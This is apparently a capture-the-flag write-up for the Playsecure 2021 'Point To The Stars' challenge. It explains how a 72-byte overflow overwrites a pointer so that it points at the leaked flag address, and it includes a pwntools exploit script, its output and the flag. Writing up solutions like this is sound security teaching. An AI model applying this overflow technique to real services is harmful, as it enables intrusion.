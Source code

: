 ```yaml
---
layout: post
title: Playsecure - Point To The Stars
---
```

### Challenge Description

Can you point to the stars? Make the pointer point to the flag!

Connect to the challenge at exploitation.ps.ctf.ae:5454

<!-- more -->

### Connecting to challenge server and interacting.

![pts00](/assets/playsecure2021/pts00.png)

1. Flag Address
2. Current Address of star pointer
3. User Input
4. New star pointer

### Overwriting the star pointer

Sending a string of length 100 will overwrite the star pointer.

![pts01](/assets/playsecure2021/pts01.png)

Star pointer overwritten with 8 A's.

### Controlling the star pointer

We enter a unique pattern of 100 length as the wish. Find the offset at which the star pointer is getting overwritten.

![pts02](/assets/playsecure2021/pts02.png)

1. Generating unique pattern with MSF pattern_create.rb
2. Sending unique pattern
3. New star pointer address which is overwritten with the unique pattern
4. Finding the offset -> 72
5. Sending 72 A's + 8 B's as wish to confirm control over star pointer.
6. Star pointer overwritten with 8 B's

### Approach to Exploitation

WE know the following:
- The index at which star pointer is getting overwritten
- The address at which flag is stored

WE have to do the following:
- After connecting to challenge, read the flag address
- Send payload as [JUNK 72] + [FLAG ADDRESS PACKED LITTLE ENDIAN]
- Read responses from challenge server

### Exploitaion Proof of Concept

```python
# Author: Rizal Muhammed ~ rizaru ~ UB3RSiCK
# Date: 27 March 2021
# Desc: Playsecure ctf Point to the stars exploitation solution

from pwn import *
import struct

def p(a):
	return struct.pack("I",a)

conn = remote('exploitation.ps.ctf.ae',5454)
r = conn.recvuntil("Enter your wish: ")

temp = str(r).split('\\n')

print ('\n'.join(temp))


for item in temp:
        if "The flag is stored at" in item:
                flag = item[len('The flag is stored at '):]
        if "The star pointer is pointing at" in item: 
                ptr = item[len('The star pointer is pointing at '):]


payload = b"A"*72

f = str(flag)[2:]
print (f)

pp = p64(int(f, 16))

print (repr(pp))

payload += pp

print (payload, type(payload))

conn.sendline(payload)

print (conn.recvline())
print (conn.recvline())
print (conn.recvline())
```

Running the PoC.

![pts03](/assets/playsecure2021/pts03.png)

```bash
kali@kali:~/Desktop/CTF/playsecure.ctf.ae-mar262021/exploitation/point2thestars$ python3 pt2str.py 
[+] Opening connection to exploitation.ps.ctf.ae on port 5454: Done
b'Can you reach for the stars?
----------------------
The flag is stored at 0x7fffcf6de170
The star pointer is pointing at 0x7fffcf6de1c0
Enter your wish: '
7fffcf6de170
b'p\xe1m\xcf\xff\x7f\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp\xe1m\xcf\xff\x7f\x00\x00' <class 'bytes'>
b'Granting your wish...\n'
b'The star pointer is now pointing at 0x7fffcf6de170\n'
b'Following the pointer you find: CTFAE{ReachForTheStarsAndBeyond}\n'
```

*FLAG: CTFAE{ReachForTheStarsAndBeyond}*
